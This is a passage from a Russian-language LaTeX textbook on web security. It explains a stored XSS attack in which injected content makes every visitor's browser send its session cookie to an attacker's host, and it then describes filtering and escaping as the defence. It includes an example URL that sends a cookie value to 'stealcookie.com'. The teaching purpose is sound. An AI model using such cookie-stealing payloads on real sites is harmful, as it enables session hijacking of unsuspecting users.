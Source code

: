 Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введенного текста пользователем: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и др., а также в обработке кодировок символов.
